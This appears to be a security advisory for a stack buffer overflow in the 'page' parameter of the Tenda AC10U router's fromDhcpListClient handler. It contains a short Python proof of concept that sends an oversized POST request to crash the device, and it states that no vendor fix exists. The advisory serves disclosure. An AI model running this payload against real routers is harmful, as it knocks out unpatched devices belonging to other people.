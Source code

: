 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the page parameter in the fromDhcpListClient function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formDhcpListClient" retrieves the parameter "page" using "websGetVar", the value of "page" is formatted using the sprintf function, concatenated with "%s" strings, and stored in "gotopage". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "gotopage".

![1705405859440](image/fromDhcpListClient/1705405859440.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/DhcpListClient'
payload = {
    "page": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
